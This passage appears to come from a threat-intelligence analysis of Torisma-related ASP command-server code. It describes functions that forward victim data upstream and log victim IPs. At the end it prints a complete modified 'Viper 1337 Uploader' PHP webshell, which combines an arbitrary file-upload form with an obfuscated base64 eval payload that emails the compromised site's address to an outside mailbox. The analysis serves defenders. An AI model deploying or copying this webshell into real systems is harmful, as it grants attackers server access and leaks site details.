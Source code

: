 Retrieve and write log file content in base64 format (ViewGallery)
ViewMons
Another function also not used by Torisma is intended to set the local configuration file. It appears to use a different request method than ACTION; in this case it uses MAILTO. Based on insight gathered from Torisma, we can speculate this is related to configuration files that are used by the implant.

ViewMons function
SendData
This function is used in the RedirectToAdmin method exclusively and is the mechanism for sending data to the upstream C2. It depends on the GetConfig function that is based on the stored value in the cfgvault variable.

Send Data
RedirectToAdmin
This function is used to redirect information from an infected victim to the master server upstream. This is an interesting function indicating additional infrastructure beyond the immediate C2 with which we observed Torisma communicating.

RedirectToAdmin
WriteAgentLog
As part of the process of tracking victim’s with Torisma, the ASP code has a function to write log files. These resulting log files indicate success for the execution of shellcode on victims running Torisma. This logging method captures the user agent and IP address associated with the victim being monitored. This function is called when the information is sent to the master server via the RedirectToAdmin method.

Analysis of the server logs indicates the following countries made connections to the View.ASP page in July 2020.

India
Australia
Israel
Finland

Webshells
During our analysis we were able to determine that in some instances the attacker used webshells to maintain access. Discovered on another compromised server by the same actor with the same type of code was a PHP Webshell known as Viper 1337 Uploader. Based on our analysis this is a modified variant of Viper 1337 Uploader.



<title>Viper 1337 Uploader</title>
<?php
echo ‘<form action=”” method=”post” enctype=”multipart/form-data” name=”uploader” id=”uploader”>’;
echo ‘<input type=”file” name=”file” size=”50″><input name=”_upl” type=”submit” id=”_upl” value=”Upload”></form>’;
if( $_POST[‘_upl’] == “Upload” ) {
if(@copy($_FILES[‘file’][‘tmp_name’], $_FILES[‘file’][‘name’])) { echo ‘<b>Shell Uploaded ! :)<b><br><br>’; }
else { echo ‘<b>Not uploaded ! </b><br><br>’; }
}
?>
<?php
eval(base64_decode(‘JHR1anVhbm1haWwgPSAnS2VsdWFyZ2FIbWVpN0B5YW5kZXguY29tJzsKJHhfcGF0aCA9ICJodHRwOi8vIiAuICRfU0VSVkVSWydTRVJWRVJfTkFNRSddIC4gJF9TRVJWRVJbJ1JFUVVFU1RfVVJJJ107CiRwZXNhbl9hbGVydCA9ICJmaXggJHhfcGF0aCA6cCAqSVAgQWRkcmVzcyA6IFsgIiAuICRfU0VSVkVSWydSRU1PVEVfQUREUiddIC4gIiBdIjsKbWFpbCgkdHVqdWFubWFpbCwgIkNvbnRhY3QgTWUiLCAkcGVzYW5fYWxlcnQsICJbICIgLiAkX1NFUlZFUlsnUkVNT1RFX0FERFInXSAuICIgXSIpOw==’));
?>
